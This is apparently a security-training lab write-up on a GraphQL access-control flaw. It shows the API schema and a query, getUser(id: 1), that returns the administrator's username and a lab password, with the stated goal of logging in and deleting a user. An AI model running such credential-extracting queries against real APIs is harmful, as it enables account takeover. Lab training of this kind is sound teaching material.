 ### Lab: Accidental exposure of private GraphQL fields

The user management functions for this lab are powered by a GraphQL endpoint. The lab contains an access control vulnerability whereby you can induce the API to reveal user credential fields.

To solve the lab, sign in as the administrator and delete the username carlos.

Learn more about Working with GraphQL in Burp Suite. 

**BlogPost Type**

| **Field**       | **Type**            |
|-----------------|---------------------|
| `id`            | `Int!`              |
| `image`         | `String!`           |
| `title`         | `String!`           |
| `author`        | `String!`           |
| `date`          | `Timestamp!`        |
| `summary`       | `String!`           |
| `paragraphs`    | `[String!]!`        |

---

**User Type**

| **Field**       | **Type**            |
|-----------------|---------------------|
| `id`            | `Int!`              |
| `username`      | `String!`           |
| `password`      | `String!`           |

---

**Queries**

| **Query**               | **Return Type**       |
|-------------------------|-----------------------|
| `getBlogPost(id: Int!)`  | `BlogPost`            |
| `getAllBlogPosts`        | `[BlogPost!]!`        |
| `getUser(id: Int!)`      | `User`                |



```
  query {
    getUser(id: 1) {
      id
      username
      password
    }
  }
```
return:
```
{
  "data": {
    "getUser": {
      "id": 1,
      "username": "administrator",
      "password": "rham3gpca3v7j284b7y7"
    }
```